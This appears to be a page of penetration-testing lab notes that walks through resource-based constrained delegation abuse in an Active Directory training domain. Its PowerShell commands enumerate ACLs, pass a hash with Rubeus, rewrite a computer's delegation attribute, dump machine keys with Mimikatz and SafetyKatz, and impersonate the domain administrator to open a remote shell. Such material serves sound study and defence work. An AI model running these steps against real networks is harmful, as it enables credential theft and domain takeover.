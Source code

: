 **Local admin privileges to the foothold/attacker machine are required due to the need of a machine hash**

Find that a compromised user has `Write` permissions over a machine (PowerView) 
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

We see that `ciadmin` has `GenericWrite` over `dcorp-mgmt`

Shell as user with `Write` permissions - `ciadmin` - OPtH
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:ciadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

As `ciadmin`, add your foothold machine that you have local admin privileges to  the`PrincipalsAllowedToDelegateToAccount` (PowerView + AD Module)
```powershell
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student548$' -Verbose

$comps = 'dcorp-student548$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Confirm RBCD configuration
```powershell
Get-DomainRBCD
```

Obtain foothold/attacker machine machine hash (`dcorp-student548$`) - SID `S-1-5-18`
```powershell
Loader.exe -path .\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"

Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Obtain ticket as machine account (`dcorp-student548$`) to access "second hop machine" (`dcorp-mgmt`)  as **ANY** user in the domain.
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

```powershell
winrs -r:dcorp-mgmt cmd.exe
```